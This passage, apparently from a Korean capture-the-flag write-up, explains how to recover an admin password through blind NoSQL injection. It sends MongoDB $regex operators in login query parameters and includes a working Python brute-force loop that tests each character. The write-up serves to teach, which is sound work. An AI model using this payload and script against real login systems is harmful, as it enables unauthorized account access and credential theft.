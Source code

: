 ### 3. 비밀번호 구하기

그럼 이제 비밀번호의 길이를 구했기 때문에, **정규 표현식을 사용하여 비밀번호의 각 자리를 하나씩 구해가는 방법으로** 비밀번호를 구해낼 수 있다.

먼저, 비밀번호에서 `DH{}` 안에 저장된 플래그를 구할 것이기 때문에 한 자리씩 구해서 전체 결과를 누적할 `flag` 변수를 선언해준다.

그 다음에는, 구해준 비밀번호의 길이만큼 범위를 설정하여 각 자리에 대해 반복문을 돌며, `ALPHANUMERIC` 문자열의 각 문자에 대해 현재 검증하는 비밀번호의 자리값과 동일한지 확인하면 된다.

이는 비밀번호 길이를 구할 때와 동일한 논리로, `requests.get` 함수를 통해 `GET` 요청을 보낸 후, `GET` 요청에 대한 서버의 응답을 `response` 객체에 저장하여 `response.text`의 값이 `SUCCESS`와 같을 때(로그인에 성공)를 확인하면 된다.

URL로 전달할 쿼리문은 `f-string`을 통해 아래와 같이 정규 표현식을 사용하여 작성할 수 있다. `ch`는 `ALPHANUMERIC` 문자열에서 접근하는 iterator 문자이다.

- `uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}`

이러면 `upw`의 정규 표현식으로 `^D.{{flag}{ch}`가 들어가기 때문에 찾은 `flag`와 검증할 `ch`가 누적되어 반복문을 통해 각 자리의 비밀번호 값을 구할 수 있다.

`response.text == SUCCESS`인 경우 `break`를 통해 `ALPHANUMERIC`에 대한 반복문을 종료하고, 한 자리를 뒤로 이동해서 다시 반복문을 수행하면 된다.

```
# 2. 비밀번호 구하기
flag = ''

for i in range(pw_len):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        # response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=^D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break

    print(f'FLAG: DH{{{flag}}}')
```

<img width="486" alt="image" src="https://github.com/user-attachments/assets/51a2813d-161c-4a65-ad69-2c4f01426d03">
